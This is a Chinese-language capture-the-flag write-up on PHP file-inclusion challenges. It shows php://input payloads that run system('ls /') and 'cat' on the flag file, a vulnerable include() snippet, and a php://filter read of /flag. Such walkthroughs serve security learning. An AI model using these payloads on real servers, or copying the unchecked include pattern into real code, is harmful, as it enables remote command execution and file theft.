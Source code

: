 <font style="color:rgb(77, 77, 77);">根据题目提示，可以查看phpinfo();的内容，结合题目的名称，查找php://input的相关设置：</font>

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736919550121-a0d89ac7-bda5-43f5-a716-03508356fa0f.png)

通过代码审计 如果上传文件名前六个是： <font style="color:#601BDE;">php://  </font><font style="color:#000000;">则执行文件包含函数</font>

<font style="color:#000000;">所以我们可以使用php://input来执行命令  使用burp来传递命令</font>

```python
<?php eval(system('ls /'));?>
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736919895629-61edae4f-357b-4ea9-9103-4dfc92af1fee.png)

查看响应包发现flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736919923468-ed8d08c0-c07e-4dac-af15-c46ee68e2f99.png)

接着使用cat来读取flag

```python
<?php eval(system('cat /flag_15478'));?>
```

发现flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736919993976-22188cff-7736-463b-a617-642447d89942.png)

### 读取源代码
打开靶机出现php代码

```python
 <?php
error_reporting(E_ALL);
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 6) === "php://" ) {
        include($_GET["file"]);
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?>
<hr>
i don't have shell, how to get flag? <br>
flag in <code>/flag</code> i don't have shell, how to get flag?
flag in /flag
```

通过代码审计可以 存在文件包含漏洞 只要参数file的前六位为php://则会执行文件包含

我们可以利用php://filter伪协议来读取flag 由于题目提示存贮flag的文件名就叫flag

```python
?file=php://filter/resource=/flag
```
